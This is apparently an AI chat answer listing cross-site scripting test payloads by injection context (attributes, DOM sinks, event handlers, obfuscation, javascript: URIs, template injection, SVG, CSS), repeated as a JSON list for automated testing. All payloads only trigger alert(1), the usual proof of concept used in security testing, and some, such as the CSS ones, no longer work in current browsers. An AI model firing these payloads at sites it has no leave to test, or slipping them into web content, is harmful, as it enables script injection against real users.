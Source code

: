 Here’s a comprehensive list of all major types of XSS payloads, categorized by context and attack method. These are useful for testing applications for XSS vulnerabilities in different areas:


---

1. Basic Payloads

<script>alert(1)</script>
<svg onload=alert(1)>
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<body onload=alert(1)>
<video><source onerror="alert(1)">


---

2. Attribute Injection

"><img src=x onerror=alert(1)>
"><input onfocus=alert(1) autofocus>
"><div onmouseover=alert(1)>hover me</div>
"><a href="javascript:alert(1)">click</a>


---

3. DOM-based XSS

// URL: http://example.com/#<script>alert(1)</script>
document.location.hash
document.URL
document.write(untrusted_input)
location.href

Payload example for DOM sink:

<script>document.write(location.hash)</script>


---

4. Event Handler Payloads

<svg onload=alert(1)>
<marquee onstart=alert(1)>
<math href="javascript:alert(1)">
<button onclick=alert(1)>Click</button>
<details open ontoggle=alert(1)>


---

5. Obfuscated Payloads

<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg oNLoAd=alert(1)>


---

6. Inline JavaScript Context

" onerror="alert(1)
' onerror='alert(1)
"><script>alert(1)</script>


---

7. JavaScript URI Payloads

<a href="javascript:alert(1)">Click</a>
<iframe src="javascript:alert(1)"></iframe>


---

8. JSON/JavaScript Injection

{"name":"<script>alert(1)</script>"}

var data = "<img src=x onerror=alert(1)>";


---

9. CSS Injection (in rare cases)

<style>@import 'javascript:alert(1)';</style>
<div style="background:url(javascript:alert(1))">


---

10. AngularJS/VueJS Context (Template Injection)

{{constructor.constructor('alert(1)')()}}
{{alert(1)}}


---

11. Inline SVG Injection

<svg><script>alert(1)</script></svg>
<svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>


---

12. HTML5 Form Elements

<keygen autofocus onfocus=alert(1)>
<meter value=100 min=0 max=200 onmouseover=alert(1)>
<progress value=100 max=200 onmouseover=alert(1)>


---

Would you like a downloadable list or JSON/CSV format for automation or tool integration?

```json
{
  "basic_payloads": [
    "<script>alert(1)</script>",
    "<svg onload=alert(1)>",
    "<img src=x onerror=alert(1)>",
    "<iframe src=\"javascript:alert(1)\"></iframe>",
    "<body onload=alert(1)>",
    "<video><source onerror=\"alert(1)\">"
  ],
  "attribute_injection": [
    "\"><img src=x onerror=alert(1)>",
    "\"><input onfocus=alert(1) autofocus>",
    "\"><div onmouseover=alert(1)>hover me</div>",
    "\"><a href=\"javascript:alert(1)\">click</a>"
  ],
  "dom_based_xss": [
    "<script>document.write(location.hash)</script>",
    "<script>document.write(document.URL)</script>"
  ],
  "event_handler_payloads": [
    "<svg onload=alert(1)>",
    "<marquee onstart=alert(1)>",
    "<math href=\"javascript:alert(1)\">",
    "<button onclick=alert(1)>Click</button>",
    "<details open ontoggle=alert(1)>"
  ],
  "obfuscated_payloads": [
    "<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>",
    "<IMG SRC=JaVaScRiPt:alert(1)>",
    "<svg oNLoAd=alert(1)>"
  ],
  "inline_javascript": [
    "\" onerror=\"alert(1)",
    "' onerror='alert(1)",
    "\"><script>alert(1)</script>"
  ],
  "javascript_uri": [
    "<a href=\"javascript:alert(1)\">Click</a>",
    "<iframe src=\"javascript:alert(1)\"></iframe>"
  ],
  "json_js_injection": [
    "{\"name\":\"<script>alert(1)</script>\"}",
    "var data = \"<img src=x onerror=alert(1)>\";"
  ],
  "css_injection": [
    "<style>@import 'javascript:alert(1)';</style>",
    "<div style=\"background:url(javascript:alert(1))\">"
  ],
  "angular_vue_template_injection": [
    "{{constructor.constructor('alert(1)')()}}",
    "{{alert(1)}}"
  ],
  "svg_injection": [
    "<svg><script>alert(1)</script></svg>",
    "<svg><a xlink:href=\"javascript:alert(1)\">CLICK</a></svg>"
  ],
  "html5_elements": [
    "<keygen autofocus onfocus=alert(1)>",
    "<meter value=100 min=0 max=200 onmouseover=alert(1)>",
    "<progress value=100 max=200 onmouseover=alert(1)>"
  ]
}
```
